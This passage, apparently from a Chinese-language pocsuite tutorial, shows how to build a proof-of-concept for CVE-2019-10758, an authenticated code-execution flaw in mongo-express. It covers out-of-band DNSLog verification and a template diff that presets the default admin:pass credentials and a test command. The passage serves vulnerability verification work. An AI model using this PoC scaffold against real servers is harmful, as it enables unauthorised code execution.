 ```  
  
Mongo-express 是一个基于 Node.js 和 express 的开源的 MongoDB Web 管理界面。mongo-express <= 0.53.0  
 版本存在认证远程代码执行漏洞。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（admin:pass  
），则可以执行任意 node.js 代码。  
  
使用 pocsuite --new  
 生成模版，由于该漏洞没有回显，我们使用 CEye （http://www.ceye.io/）或者 Interactsh （https://github.com/projectdiscovery/interactsh）等 DNSLog 服务来辅助验证。  
  
Interactsh 是知名开源软件组织 projectdiscovery 开发的一款 DNSLog 工具，只要有一个域名，就可以快速搭建属于自己的 oob 服务。网上也有一些公开可用的，如：interact.sh, oast.pro, oast.live, oast.site, oast.online, oast.fun, oast.me  
。  
  
生成模版：  
  
```
→pocsuite --new
...
-----
Seebug ssvid (eg, 99335) [0]: 98116
PoC author (eg, Seebug) []: Seebug
Vulnerability disclosure date (eg, 2021-8-18) [2022-7-11]: 2020-01-03
Advisory URL (eg, https://www.seebug.org/vuldb/ssvid-99335) [https://www.seebug.org/vuldb/ssvid-98116]:
Vulnerability CVE number (eg, CVE-2021-22123) []: CVE-2019-10758
Vendor name (eg, Fortinet) []:
Product or component name (eg, FortiWeb) []: mongo-express
Affected version (eg, <=6.4.0) []: <=0.53.0
Vendor homepage (eg, https://www.fortinet.com) []: https://github.com/mongo-express/mongo-express

0    Arbitrary File Read
1    Code Execution
2    Command Execution
3    Denial Of service
4    Information Disclosure
5    Login Bypass
6    Path Traversal
7    SQL Injection
8    SSRF
9    XSS

Vulnerability type, choose from above or provide (eg, 3) []: 1
Authentication Required (eg, yes) [no]: yes  # 漏洞需要认证
Can we get result of command (eg, yes) [no]: no  # 漏洞无回显
Out-of-band server to use (eg, interactsh) [ceye]: interactsh  # 选择使用哪个 oob 服务
...
```  
  
  
根据漏洞细节，对模版进行简单修改：  
  
```
     def _options(self):
         o = OrderedDict()
-        o['user'] = OptString('', description='The username to authenticate as', require=True)
-        o['pwd'] = OptString('', description='The password for the username', require=True)
+        o['user'] = OptString('admin', description='The username to authenticate as', require=True)
+        o['pwd'] = OptString('pass', description='The password for the username', require=True)
         o['cmd'] = OptString('uname -a', description='The command to execute')
         return o
